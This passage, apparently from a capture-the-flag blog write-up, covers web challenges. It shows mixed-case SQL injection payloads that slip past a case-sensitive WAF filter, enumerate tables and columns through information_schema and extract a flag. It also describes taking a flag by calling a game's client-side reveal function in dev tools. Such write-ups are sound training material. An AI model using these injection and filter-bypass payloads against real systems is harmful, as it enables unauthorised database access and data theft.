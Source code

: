 ```
    ];
    
    foreach ($patterns as $pattern) {
        if (preg_match($pattern, $input)) {
            return false;
        }
    }
    return true;
}
```
We know that this was like waf configuration means we cant direct execute our payload directly .

#### Mixed case for bypass case-sensitive WAF/Filter 

```
 1.use ' UnIoN SeLeCt 1,2,3# =bahtera 
 2.' UnIoN SeLeCt 1,2,table_name FrOm information_schema.tables WhErE table_schema=database()# =tokoh 
 3.' UnIoN SeLeCt 1,2,column_name FrOm information_schema.columns WhErE table_name='tokoh'# =bendera 
 Final Payload : ' UnIoN SeLeCt 1,nama,bendera FrOm tokoh LiMit 1,1# 
 ```

 ![can u](/assets/img/flagsql.png)

```
Flag :3108{d4_jUmP@_b3nD3eR4_K3??}
```

## Challenge 4 : Permainan Lagenda 

Given a Web with snake xenzia challenge 

### 💥Exploit Analysis 

In page source there was a file game.js in that section of code containing this 

 ![can u](/assets/img/gamejs.png)

  From this section of code in game.js 
  shows that we can trigger Flag function was pointing to the Reveal Flag func .

![can u](/assets/img/devflag.png)

By triggering thye func in dev tools we finally get the flag wkwkwkw.

```
Flag : 3108{u14r_l3gend}
```


## Challenge 5 : Kotak Angkasa

